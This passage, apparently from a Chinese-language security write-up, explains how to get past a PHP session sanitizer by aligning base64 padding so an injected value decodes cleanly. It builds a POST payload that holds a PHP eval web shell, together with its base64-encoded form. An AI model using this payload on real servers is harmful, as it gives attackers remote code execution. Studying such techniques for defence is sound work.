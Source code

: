4组解码-&gt;缺少两个字节，后面需占两位（`X` 代表占位符）

```
username|s:1:"  //原始未处理信息

user name s1XX  //base64解码特点，去除特殊字符，填充两个字节'XX'
```

当session存储的信息中用户名编码后的长度为两位数时，`username|s:11:"`这部分数据长度为15，实际解码为`usernames11`，实际长度为11，不满足情况。

4组解码-&gt;缺少一个字节，后面需占一位

```
username|s:11:"   //原始未处理信息

user name s11X   //base64解码特点，去除特殊字符，填充一个字节'X'
```

当session存储的信息中用户名编码后的长度为三位数时，`username|s:111:"`这部分数据长度为16，实际解码为`usernames111`，长度为12，满足情况。

4组解码-&gt;缺少零个字节，后面需占零位

```
username|s:11:"   //原始未处理信息

user name s111  //base64解码特点，去除特殊字符，填充0个字节'X'
```

这种情况下刚好满足，即使前面这部分数据正常解码后的结果是乱码，也不会影响后面恶意代码的正常解码。

再次构造payload

```
POST：
username=qftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftm&lt;?php eval($_POST['mtfq']);?&gt;
```

先测试payload编码后的长度是否满足构造需求

base64编码

```
cWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtcWZ0bXFmdG1xZnRtPD9waHAgZXZhbCgkX1BPU1RbJ210ZnEnXSk7Pz4=
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01102c2bb064030f1c.png)

编码测长

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019939997cc96cef63.png)

结果中可以看到payload满足长度的需求。

<a class="reference-link" name="Bypass%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8"></a>**Bypass攻击利用**

分析怎么绕过之后，可以构造payload传入恶意session
